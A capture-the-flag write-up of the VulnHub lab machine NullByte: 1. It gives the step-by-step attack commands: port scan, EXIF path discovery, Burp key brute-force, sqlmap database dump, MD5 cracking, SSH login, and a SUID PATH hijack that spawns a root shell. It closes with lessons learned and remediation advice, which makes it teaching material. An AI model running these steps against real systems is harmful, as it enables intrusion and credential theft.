





# NullByte: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.142 (host-only) |
| **Difficulty** | Beginner/Intermediate |
| **OS** | Linux (Debian) |
| **Flags** | proof.txt in /root |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/nullbyte-1,126/) |

## Attack Summary

`nmap` → `exiftool on main.gif (hidden path)` → `Burp brute /kzMb5nVYJw (key=elite)` → `SQLi with sqlmap (seth DB → ramses:omega MD5)` → `SSH port 777` → `find SUID procwatch` → `PATH hijack ps → /bin/sh` → root

## Methodology

1. Full port scan to identify non-standard SSH port (777)
2. Download and analyze web image for hidden EXIF metadata
3. Brute-force access key on hidden web portal
4. SQL injection via sqlmap to dump credentials
5. SSH login with cracked MD5 password
6. SUID binary abused via PATH manipulation

---

## Step 1: Network Discovery and Port Scan

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.142
```

Open ports: 80 (HTTP), 111 (RPC), 777 (SSH — non-standard), 44607.

SSH is running on port 777, not 22.



---

## Step 2: Image EXIF Metadata

Browse to `http://192.168.1.142` — find `main.gif` in the page source.

```bash
wget http://192.168.1.142/main.gif
exiftool main.gif
```

Output includes:

```
Comment: kzMb5nVYJw
```

This is a hidden directory name.



---

## Step 3: Brute-Force Hidden Portal

Navigate to `http://192.168.1.142/kzMb5nVYJw/` — a page asks for a key.

Use Burp Suite Intruder with `rockyou.txt` on the key parameter. The key is:

```
elite
```

The portal at `/kzMb5nVYJw/index.php` leads to `/kzMb5nVYJw/420search.php?usrtosearch=`.

---

## Step 4: SQL Injection

Enumerate databases:

```bash
sqlmap -u "http://192.168.1.142/kzMb5nVYJw/420search.php?usrtosearch=1" --dbs --batch
```

Found database: `seth`

Dump the database:

```bash
sqlmap -u "http://192.168.1.142/kzMb5nVYJw/420search.php?usrtosearch=1" -D seth --dump-all --batch
```

Retrieved: username `ramses`, password hash (MD5).

Crack the hash at md5coder.org or with hashcat:

```bash
hashcat -m 0 <HASH> /usr/share/wordlists/rockyou.txt
# Password: omega
```



---

## Step 5: SSH Login

```bash
ssh ramses@192.168.1.142 -p 777
# Password: omega
```



---

## Step 6: Privilege Escalation — SUID PATH Hijack

Find SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Interesting: `/var/www/backup/procwatch` — has SUID bit set.

```bash
cd /var/www/backup/
./procwatch
```

`procwatch` calls `ps` without a full path. Create a fake `ps` in the current directory:

```bash
echo "/bin/sh" > ps
chmod 777 ps
export PATH=.:$PATH
./procwatch
```

Root shell obtained.

```bash
id
# uid=0(root)
cd /root
cat proof.txt
```



---

## Lessons Learned

1. **EXIF metadata** in images can leak hidden paths and internal information — always audit media files.
2. **No CAPTCHA or rate-limiting** on web portals allows offline or online brute-force of access keys.
3. **SQLi via unsanitized GET parameter** — use parameterized queries; never build SQL from user input.
4. **MD5 password storage** is broken; use bcrypt/scrypt/argon2 with per-user salts.
5. **SUID binary calling commands by relative name** allows PATH hijack — always use full absolute paths in privileged binaries.

## Remediation

| Vulnerability | Fix |
|---|---|
| EXIF metadata disclosure | Strip metadata before serving images |
| No brute-force protection | Rate-limit login attempts; add CAPTCHA |
| SQL injection | Parameterized queries / prepared statements |
| MD5 password hashing | Use bcrypt or Argon2 with unique salts |
| SUID PATH hijack | Use full absolute paths in SUID binaries; drop SUID |
